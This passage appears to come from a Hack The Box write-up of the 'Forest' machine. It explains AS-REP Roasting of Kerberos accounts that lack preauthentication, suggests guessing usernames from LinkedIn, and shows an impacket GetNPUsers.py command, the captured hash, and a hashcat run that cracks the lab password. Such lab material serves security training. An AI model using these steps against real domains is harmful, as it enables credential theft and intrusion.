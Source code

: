 ## Initial foothold
---
### AS-REP Roasting

<mark>AS-REP Roasting</mark> is an attack targeting <mark>Kerberos authentication</mark> in Active Directory (AD) where <mark>preauthentication is disabled</mark> for certain accounts.

With Kerberos preauthentication enabled, the user sends an encrypted timestamp to the <mark>Key Distribution Center (KDC)</mark> as proof of their identity, before receiving a <mark>Ticket Granting Ticket (TGT)</mark>.

However, if preauthentication is disabled, KDC doesn't require the timestamp. Instead it responds with an <mark>AS-REP (Authentication Service Response)</mark> that is encrypted using the user's password-derived key, allowing attackers to capture the AS-REP and perform offline password cracking.

It's worth to mention that <mark>AS-REP Roasting</mark> attack can be performed on any account where <mark>preauthentication is disabled</mark>, requiring only account's username. Additionally, we can use LinkedIn username scrapping to guess an account's username by following popular naming conventions (e.g., JDoe, J.Doe, JohnD). A fantastic tool for that is [linkedin2username](https://github.com/initstring/linkedin2username).

Requesting the AS-REP response using <mark>GetNPUsers.py</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for svc-alfresco
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e49093867aee5c48cd915640fcbbbba8$4a1eb55b802b64c9153722de3d3ff701bac161807bbd7ba5bbdf055fe12401ca97312541babda9d53b8c665eaf1f3b264e92364fec0a9fad415f6335d7af35e2c7458bbd6ee1a72f8e11442af46fa7a3347ac1a0d71e9b41d0849c663a6ce6a69756aec9b8b9e0e50ac51985087fd143de649b198844afd2930db1be36a839c4fafa5f89713dddcceae21a407e6e88ebeeec4376295cc7ec817947c246fb16eb79ff82d485a9492e229ce6f9ad7277371c9c453145c3098ed7ab25c8947643b291f529dcfae9c18e41c33573b9f86f8c6337ada7bf68eb777d4cb77c788c60dd112f4a158988
{% endhighlight %}

### Cracking a hash

{% highlight shell %}
┌──(iwo㉿kali)-[~/Desktop/Boxes/Forest/hashes]
└─$ hashcat -h | grep AS-REP                                              
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
{% endhighlight %}

{% highlight shell %}
┌──(iwo㉿kali)-[~/Desktop/Boxes/Forest/hashes]
└─$ hashcat -m 18200 svc-alfresco /usr/share/wordlists/rockyou.txt --force 

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e49093867aee5c48cd915640fcbbbba8$4a1eb55b802b64c9153722de3d3ff701bac161807bbd7ba5bbdf055fe12401ca97312541babda9d53b8c665eaf1f3b264e92364fec0a9fad415f6335d7af35e2c7458bbd6ee1a72f8e11442af46fa7a3347ac1a0d71e9b41d0849c663a6ce6a69756aec9b8b9e0e50ac51985087fd143de649b198844afd2930db1be36a839c4fafa5f89713dddcceae21a407e6e88ebeeec4376295cc7ec817947c246fb16eb79ff82d485a9492e229ce6f9ad7277371c9c453145c3098ed7ab25c8947643b291f529dcfae9c18e41c33573b9f86f8c6337ada7bf68eb777d4cb77c788c60dd112f4a158988:s3rvice

<SNIP>
{% endhighlight %}
